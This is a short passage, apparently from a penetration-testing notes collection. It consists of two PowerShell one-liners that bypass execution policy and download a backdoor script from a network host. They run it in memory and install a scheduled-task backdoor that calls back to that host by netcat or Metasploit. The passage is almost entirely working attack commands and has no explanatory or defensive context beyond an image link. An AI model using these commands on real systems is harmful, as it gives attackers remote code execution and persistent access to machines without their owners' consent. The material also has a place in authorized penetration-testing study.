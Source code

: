 	>powershell.exe -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.103/Invoke-taskBackdoor.ps1');Invoke-Tasksbackdoor -method nccat -ip 192.168.0.103 -port 9999 -time 2"
	>powershell.exe -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.103/Invoke-taskBackdoor.ps1');Invoke-Tasksbackdoor -method msf -ip 192.168.0.103 -port 8081 -time 2"
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/535.png)